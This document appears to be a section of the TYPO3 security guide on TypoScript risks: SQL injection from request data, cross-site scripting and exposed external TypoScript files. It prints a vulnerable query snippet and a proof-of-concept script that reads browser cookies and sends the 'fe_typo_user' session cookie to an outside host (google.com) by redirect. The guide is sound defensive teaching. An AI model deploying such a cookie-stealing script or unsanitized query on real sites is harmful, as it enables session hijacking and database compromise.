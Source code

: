 ﻿

.. ==================================================
.. FOR YOUR INFORMATION
.. --------------------------------------------------
.. -*- coding: utf-8 -*- with BOM.

.. ==================================================
.. DEFINE SOME TEXTROLES
.. --------------------------------------------------
.. role::   underline
.. role::   typoscript(code)
.. role::   ts(typoscript)
   :class:  typoscript
.. role::   php(code)


TypoScript
^^^^^^^^^^


SQL injection
"""""""""""""

The CWE/SANS list of top 25 most dangerous software errors ranks "SQL
injection" first! The TYPO3 Security Team comes across this security
vulnerability in TYPO3 extensions over and over again. TYPO3
integrators (and everyone who writes code using TypoScript) should be
warned that due to the sophistication of TYPO3's configuration
language, SQL injections are also possible in TypoScript, for example
using the CONTENT object and building the SQL query with values from
the GET/POST request.

The following code snippet gives an example:

::

   page = PAGE
   page.10 = CONTENT
   page.10 {
     table = tt_content
     select {
       pidInList = 123
       where = deleted=0
       andWhere.data = GP:pageid
       andWhere.wrap = uid=|
       andWhere.intval = 1
     }
   }

Without the "andWhere.intval = 1" instruction, the unsanitized
argument passed by the GET/POST request "pageid" is being used for the
database query. Specially formed GET/POST requests would cause an SQL
injection.

As a rule, you cannot trust (and must not use) any data from a source
you do not control without proper verification and validation (e.g.
user input, other servers, etc.).


Cross-site scripting (XSS)
""""""""""""""""""""""""""

Similar applies for XSS placed in TypoScript code. The following code
snippet gives an example:

::

   page = PAGE
   page.10 = COA
   page.10 {
     10 = HTML
     10.value (
       <h1>XSS &#43; TypoScript - proof of concept</h1>
       <p>Submitting (harmless) cookie data to google.com in a few seconds...</p>
     )
     20 = HTML
     20.value (
       <script type="text/javascript">
       document.write('<p>');
       // read cookies
       var i, key, data, cookies = document.cookie.split(";");
       var loc = window.location;
       for (i = 0; i < cookies.length; i++) {
         // separate key and value
         key = cookies[i].substr(0, cookies[i].indexOf("="));
         data = cookies[i].substr(cookies[i].indexOf("=") + 1);
         key = key.replace(/^\s+|\s+$/g,"");
         // show key and value
         document.write(unescape(key) + ': ' + unescape(data) + '<br />');
         // submit cookie data to another host
         if (key == 'fe_typo_user') {
           setTimeout(function() {
             loc = 'http://www.google.com/?q=' + loc.hostname ;
             window.location = loc + ':' + unescape(key) + ':' + unescape(data);
           }, 5000);
         }
       }
       document.write('</p>');
       </script>
     )
   }

TYPO3 outputs the JavaScript code in page.10.20.valueon the page. The
script is executed on the client side (in the user's browser), reads
and displays all cookie name/value pairs. In the case that a cookie
named "fe\_typo\_user" exists, the cookie value will be passed to
google.com, together with some extra data.

This code snippet is harmless of course but it shows how malicious
code (e.g. JavaScript) can be placed in the HTML content of a page by
using TypoScript.


External file inclusion
"""""""""""""""""""""""

TYPO3 allows to include external files which implement TypoScript
code. Some integrators appreciate the option of having TypoScript
outside of TYPO3's backend because the files can be maintained in a
version control system (e.g. Subversion or Git) and/or can be edited
without the need to login to TYPO3. A typical line to include an
external TypoScript file looks like this:

::

   <INCLUDE_TYPOSCRIPT: source="FILE:fileadmin/setup/typoscript.ts">

It is obvious that this method introduces some serious security risks:
first, the file "typoscript.ts" exists in a publicly accessible path
of the web server. Without any further protection, everyone who knows
or is able to guess the path/file name can access/download this file
which often causes an information disclosure.

In order to deny access to all files with the file ending ".ts", the
following Apache configuration could be used:

::

   <FilesMatch "\.ts">
     deny from all
   </FilesMatch>

However, external TypoScript files have another vulnerability: in the
case that an attacker manages to manipulate these files (e.g. via a
compromised FTP account), it is possible to compromise the TYPO3
system or to place malicious code (e.g. XSS) in the output of the
pages generated by the CMS. This attack scenario even does not require
access to the TYPO3 backend.

